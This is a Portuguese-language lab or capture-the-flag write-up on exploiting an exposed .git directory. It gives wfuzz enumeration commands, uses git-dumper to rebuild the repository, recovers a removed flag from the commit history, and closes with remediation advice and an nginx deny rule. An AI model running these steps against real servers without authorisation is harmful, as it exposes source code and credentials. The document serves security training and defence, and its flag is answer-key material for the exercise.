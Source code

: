 [[7 - VULN - Git Exposed Attack]]
## **Procedimento Técnico: Exploração de Repositório Git Exposto**

### **Objetivo**

Identificar e explorar um diretório `.git` exposto em um servidor web para reconstrução do repositório e análise de informações sensíveis.

---

### **Etapas Executadas**

#### **1. Enumeração de Diretórios**

**Ferramenta:** `wfuzz`  
**Comando Inicial:**

```bash
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://<IP-alvo>/FUZZ
```

**Observação:** Todas as respostas retornaram `200 OK`, dificultando a distinção entre diretórios válidos e falsos positivos.

#### **2. Filtragem por Tamanho de Resposta**

**Comando Refinado:**

```bash
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hh 264 http://<IP-alvo>/FUZZ
```

**Resultado:** Foi identificado o diretório `.git` como existente no servidor.

---

#### **3. Extração do Repositório Git**

**Ferramenta:** `git-dumper`  
**Comando:**

```bash
python3 git_dumper.py http://<IP-alvo>/ pasta_destino
```

**Objetivo:** Baixar todos os arquivos do repositório remoto para análise local.

---

#### **4. Análise de Arquivos Extraídos**

**Comandos Utilizados:**

```bash
cd pasta_destino
ls
nano index.php
```

**Objetivo:** Identificar arquivos importantes e examinar conteúdos sensíveis ou ocultos pela aplicação web.

---

#### **5. Investigação do Histórico Git**

**Comando para visualizar commits:**

```bash
git log
```

**Resultado:** Dois commits identificados, sendo um com a mensagem "Removendo flag".

**Comando para inspeção do commit:**

```bash
git show <ID_do_commit>
```

**Descoberta:** O commit anterior revelava uma flag que foi posteriormente removida no histórico (`echo "Get the flag: CS{G1t_3Xp0s3d_4tt4ck}"`).

---

### **Evidência de Vulnerabilidade**

A presença de `.git` exposto permite:

- Reconstrução do repositório.
    
- Acesso a versões anteriores de arquivos sensíveis.
    
- Extração de credenciais, tokens, e outras informações sigilosas.
    

---

### **Classificação da Falha**

- **CVE Relacionado:** Nenhum específico, mas trata-se de uma **misconfiguration crítica**.
    
- **Risco:** **Crítico**
    
- **Impacto:** Acesso a informações sensíveis, lógica do sistema, possíveis credenciais, e vetores de escalonamento.
    

---

### **Recomendações**

- Bloquear o acesso ao diretório `.git` via web server (Apache/Nginx).
    
- Utilizar `.htaccess` (Apache) ou regras no Nginx para negar acesso ao diretório:
    
    ```nginx
    location ~ /\.git {
        deny all;
    }
    ```
    
- Remover arquivos e diretórios de controle de versão de ambientes de produção.
    
- Implementar rotina de revisão de segurança antes de deploy.